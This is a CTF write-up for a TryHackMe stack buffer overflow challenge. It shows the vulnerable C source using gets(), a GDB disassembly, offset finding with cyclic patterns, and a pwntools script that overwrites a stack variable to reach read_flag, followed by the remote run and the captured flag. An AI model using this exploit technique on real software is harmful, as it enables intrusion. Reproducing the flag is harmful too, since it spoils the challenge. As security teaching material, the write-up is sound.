

# TryOverflowMe2

## Source Code Analysis

At first glance, the code is nearly the same as TryOverflowMe1

- Source Code
    
    ```python
    int read_flag(){
            const char* filename = "flag.txt";
            FILE* file = fopen(filename, "r");
            if(!file){
                puts("the file flag.txt is not in the current directory, please contact support\n");
                exit(1);
            }
            char ch;
            while ((ch = fgetc(file)) != EOF) {
            putchar(ch);
        }
        fclose(file);
    }
    
    int main(){
        
        setup();
        banner();
        int admin = 0;
        int guess = 1;
        int check = 0;
        char buf[64];
    
        puts("Please Go ahead and leave a comment :");
        gets(buf);
    
        if (admin==0x59595959){
                read_flag();
        }
    
        else{
            puts("Bye bye\n");
            exit(1);
        }
    }
    ```
    

However, instead of writing an arbitrary value to admin, we need to write `0x59595959`

## ELF Analysis

It is a 64-bit ELF

```python
└─$ file overflowme2 
overflowme2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c5bcde369168b57c97be4dbb4da6943d40e95504, not stripped

┌──(kali㉿kali)-[~/CTF/THM/Medium/TryPwnMe One/Source/materials-TryPwnMeOne/TryOverFlowMe2]
└─$ checksec --file=overflowme2 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   74 Symbols        No    0               2               overflowme2
```

Similar to last time, we can disassemble the main function in GDB

- GDB
    
    ```python
    pwndbg> disass main
    Dump of assembler code for function main:
       0x0000000000400950 <+0>:     push   rbp
       0x0000000000400951 <+1>:     mov    rbp,rsp
       0x0000000000400954 <+4>:     sub    rsp,0x50
       0x0000000000400958 <+8>:     mov    eax,0x0
       0x000000000040095d <+13>:    call   0x400818 <setup>
       0x0000000000400962 <+18>:    mov    eax,0x0
       0x0000000000400967 <+23>:    call   0x40085b <banner>
       0x000000000040096c <+28>:    mov    DWORD PTR [rbp-0x4],0x0
       0x0000000000400973 <+35>:    mov    DWORD PTR [rbp-0x8],0x1
       0x000000000040097a <+42>:    mov    DWORD PTR [rbp-0xc],0x0
       0x0000000000400981 <+49>:    lea    rdi,[rip+0x358]        # 0x400ce0
       0x0000000000400988 <+56>:    call   0x400640 <puts@plt>
       0x000000000040098d <+61>:    lea    rax,[rbp-0x50]
       0x0000000000400991 <+65>:    mov    rdi,rax
       0x0000000000400994 <+68>:    mov    eax,0x0
       0x0000000000400999 <+73>:    call   0x400680 <gets@plt>
       0x000000000040099e <+78>:    cmp    DWORD PTR [rbp-0x4],0x59595959
       0x00000000004009a5 <+85>:    jne    0x4009b8 <main+104>
       0x00000000004009a7 <+87>:    mov    eax,0x0
       0x00000000004009ac <+92>:    call   0x4007a2 <read_flag>
       0x00000000004009b1 <+97>:    mov    eax,0x0
       0x00000000004009b6 <+102>:   jmp    0x4009ce <main+126>
       0x00000000004009b8 <+104>:   lea    rdi,[rip+0x347]        # 0x400d06
       0x00000000004009bf <+111>:   call   0x400640 <puts@plt>
       0x00000000004009c4 <+116>:   mov    edi,0x1
       0x00000000004009c9 <+121>:   call   0x4006b0 <exit@plt>
       0x00000000004009ce <+126>:   leave
       0x00000000004009cf <+127>:   ret
    End of assembler dump.
    
    ```
    

We can see after the `gets` function, the program will then check for the value of admin

```python
   0x0000000000400999 <+73>:    call   0x400680 <gets@plt>
   0x000000000040099e <+78>:    cmp    DWORD PTR [rbp-0x4],0x59595959
```

## Offset Finding

So we can set a breakpoint, and use cyclic to find out the offset to reach `admin`

```python

pwndbg> b *main+78
Breakpoint 1 at 0x40099e
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

```

And we will paste the above string into the program, we can see the `admin` variable is being overwritten



Look up the pattern, we can find the offset 

```python
pwndbg> cyclic -l 0x61616174
Finding cyclic pattern of 4 bytes: b'taaa' (hex: 0x74616161)
Found at offset 76
```

## Exploitation

We can then write a `pwntools` script to solve it locally and remotely.

- Exploit script
    
    ```python
    from pwn import *
    
    def start(argv=[], *a, **kwargs):
        if args.GDB:
            return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kwargs)
        elif args.REMOTE:
            return remote(sys.argv[1], sys.argv[2], *a, **kwargs)
        else:
            return process([exe] + argv, *a, **kwargs)
    
    gdbscript='''
    break *main+78
    continue
    '''
    
    exe='./overflowme2'
    
    context.log_level='debug'
    
    elf=context.binary=ELF(exe, checksec=True)
    
    padding=76
    
    admin='\x59\x59\x59\x59'
    
    payload = flat({padding:admin})
    
    nc = start()
    
    nc.sendlineafter(b'Please go ahead and leave a comment :', payload)
    
    nc.interactive()
    
    ```
    

Upon executing in gdb mode, we can see that we now failed the jump not equal check, and we can reach the `read_flag` function.


We can now get the flag in the remote server!

- Result
    
    ```python
    └─$ python admin_overwrite.py REMOTE <Server IP> <Port>
    [*] '/home/kali/CTF/THM/Medium/TryPwnMe One/Source/materials-TryPwnMeOne/images/overflowme2'
        Arch:       amd64-64-little
        RELRO:      Partial RELRO
        Stack:      No canary found
        NX:         NX enabled
        PIE:        No PIE (0x400000)
        Stripped:   No
    /home/kali/CTF/THM/Medium/TryPwnMe One/Source/materials-TryPwnMeOne/images/admin_overwrite.py:27: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
      payload = flat({padding:admin})
    [+] Opening connection to <Server IP> on port <Port>: Done
    [DEBUG] Received 0x1f4 bytes:
        00000000  1b 5b 30 3b  33 32 6d 20  20 20 20 20  20 20 20 20  │·[0;│32m │    │    │
        00000010  20 20 20 20  20 20 20 20  20 5f 5f 5f  20 20 20 20  │    │    │ ___│    │
        00000020  20 20 20 20  20 20 20 5f  5f 5f 20 20  20 20 20 20  │    │   _│__  │    │
        00000030  20 0a 20 20  20 20 20 20  5f 5f 5f 20  20 20 20 20  │ ·  │    │___ │    │
        00000040  20 20 20 2f  5f 5f 2f 5c  20 20 20 20  20 20 20 20  │   /│__/\│    │    │
        00000050  20 2f 5f 5f  2f 5c 20 20  20 20 0a 20  20 20 20 20  │ /__│/\  │  · │    │
        00000060  2f 20 20 2f  5c 20 20 20  20 20 20 20  5c 20 20 5c  │/  /│\   │    │\  \│
        00000070  3a 5c 20 20  20 20 20 20  20 7c 20 20  7c 3a 3a 5c  │:\  │    │ |  │|::\│
        00000080  20 20 20 0a  20 20 20 20  2f 20 20 2f  3a 2f 20 20  │   ·│    │/  /│:/  │
        00000090  20 20 20 20  20 20 5c 5f  5f 5c 3a 5c  20 20 20 20  │    │  \_│_\:\│    │
        000000a0  20 20 7c 20  20 7c 3a 7c  3a 5c 20 20  0a 20 20 20  │  | │ |:|│:\  │·   │
        000000b0  2f 20 20 2f  3a 2f 20 20  20 20 20 5f  5f 5f 20 2f  │/  /│:/  │   _│__ /│
        000000c0  20 20 2f 3a  3a 5c 20 20  20 5f 5f 7c  5f 5f 7c 3a  │  /:│:\  │ __|│__|:│
        000000d0  7c 5c 3a 5c  20 0a 20 20  2f 20 20 2f  3a 3a 5c 20  │|\:\│ ·  │/  /│::\ │
        000000e0  20 20 20 2f  5f 5f 2f 5c  20 20 2f 3a  2f 5c 3a 5c  │   /│__/\│  /:│/\:\│
        000000f0  20 2f 5f 5f  2f 3a 3a 3a  3a 7c 20 5c  3a 5c 0a 20  │ /__│/:::│:| \│:\· │
        00000100  2f 5f 5f 2f  3a 2f 5c 3a  5c 20 20 20  5c 20 20 5c  │/__/│:/\:│\   │\  \│
        00000110  3a 5c 2f 3a  2f 5f 5f 5c  2f 20 5c 20  20 5c 3a 5c  │:\/:│/__\│/ \ │ \:\│
        00000120  7e 7e 5c 5f  5f 5c 2f 0a  20 5c 5f 5f  5c 2f 20 20  │~~\_│_\/·│ \__│\/  │
        00000130  5c 3a 5c 20  20 20 5c 20  20 5c 3a 3a  2f 20 20 20  │\:\ │  \ │ \::│/   │
        00000140  20 20 20 20  5c 20 20 5c  3a 5c 20 20  20 20 20 20  │    │\  \│:\  │    │
        00000150  0a 20 20 20  20 20 20 5c  20 20 5c 3a  5c 20 20 20  │·   │   \│  \:│\   │
        00000160  5c 20 20 5c  3a 5c 20 20  20 20 20 20  20 20 5c 20  │\  \│:\  │    │  \ │
        00000170  20 5c 3a 5c  20 20 20 20  20 0a 20 20  20 20 20 20  │ \:\│    │ ·  │    │
        00000180  20 5c 5f 5f  5c 2f 20 20  20 20 5c 20  20 5c 3a 5c  │ \__│\/  │  \ │ \:\│
        00000190  20 20 20 20  20 20 20 20  5c 20 20 5c  3a 5c 20 20  │    │    │\  \│:\  │
        000001a0  20 20 0a 20  20 20 20 20  20 20 20 20  20 20 20 20  │  · │    │    │    │
        000001b0  20 20 20 20  5c 5f 5f 5c  2f 20 20 20  20 20 20 20  │    │\__\│/   │    │
        000001c0  20 20 5c 5f  5f 5c 2f 20  0a 0a 1b 5b  30 6d 50 6c  │  \_│_\/ │···[│0mPl│
        000001d0  65 61 73 65  20 67 6f 20  61 68 65 61  64 20 61 6e  │ease│ go │ahea│d an│
        000001e0  64 20 6c 65  61 76 65 20  61 20 63 6f  6d 6d 65 6e  │d le│ave │a co│mmen│
        000001f0  74 20 3a 0a                                         │t :·│
        000001f4
    [DEBUG] Sent 0x51 bytes:
        b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaaYYYY\n'
    [*] Switching to interactive mode
    
    [DEBUG] Received 0x25 bytes:
        b'THM{why_just_the_A_have_all_theFun?}\n'
    THM{why_just_the_A_have_all_theFun?}
    [*] Got EOF while reading in interactive
    ```
    

Flag: `THM{why_just_the_A_have_all_theFun?}`
